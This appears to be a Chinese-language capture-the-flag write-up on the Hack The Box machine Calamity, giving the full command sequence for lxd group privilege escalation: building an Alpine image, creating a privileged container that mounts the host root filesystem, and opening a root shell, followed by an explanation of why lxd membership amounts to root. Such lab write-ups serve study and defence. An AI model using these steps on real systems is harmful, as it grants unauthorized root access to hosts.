 ```yaml
---
title: Calamity（lxd之linux容器错误权限的提权）
categories:
- training
tags:
- training
---
```

[上一篇：Calamity（web rce）](https://whale3070.github.io/training/2019/03/21/x/)


## Calamity（lxd之linux容器错误权限的提权）

参考资料：
- [https://reboare.github.io/hackthebox/calamity.html](https://reboare.github.io/hackthebox/calamity.html)
- [https://www.youtube.com/watch?v=EloOaaGg3nA](https://www.youtube.com/watch?v=EloOaaGg3nA)

```
ssh xalvas@10.10.10.27
18547936..*
```
得到一个用户权限的shell

## lxd提权
https://reboare.github.io/lxd/lxd-escape.html

---
【kali运行】
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder;./build-alpine -a i686
#该步骤下载一个lxd容器模板

scp alpine-v3.11-i686-20200109_0853.tar.gz xalvas@10.10.10.27:/tmp/
18547936..*
#将容器模板复制到目标机
```
【目标shell运行】
```
lxc image import alpine-v3.11-i686-20200109_0853.tar.gz --alias=alpine

lxc init alpine alpsarecold -c security.privileged=true

lxc config device add alpsarecold somedisk disk source=/ path=/mnt/root recursive=true 

lxc exec alpsarecold --mode=interactive /bin/sh
运行后，即获得

```
## 提权原理
lxd是ubuntu容器管理软件，可以看作和docker一样。

lxd组和docker组一样，有不安全的地方。

本地容器的普通用户在任何情况下都不应该被允许访问lxd，因为这样十分容易被入侵。

首先，我将检查您的用户是否是该组的成员，因为如果您安装了该用户并且是sudoer，则很可能是您。 安装后，lxd会自动将每个用户添加到lxd组中。考虑到sudoer自动具有root访问权限，这可以认为是可以的，但它忘记了sudo具有适当的审核功能，并且确实需要密码来执行root所需的任何操作。 实际上，仅安装lxd等效于在sudoers文件中添加以下内容。
```
admin    ALL=NOPASSWD: ALL
```
如果某人获得了对管理员帐户的访问权限，那么他们将立即获得完全的root访问权限，而无需输入密码。 
考虑一个ssh私钥逃逸到该用户下运行的野外服务或过时的服务，突然之间，一个仍然没有破解admin帐户密码的攻击者就具有完全的root访问权，这都是因为您安装了lxd。

我并不是在反对lxd组的存在，只是在不通知用户的情况下增加了攻击面。 发现此问题的原因在于用户没有意识到该组赋予其帐户的权力，
并且在删除了sudo特权的同时，没有进行lxd访问。

lcd运行用户使用全部权限，无需使用sudo
而lxd必需要root权限来执行程序。所以可以通过lcd来提权。
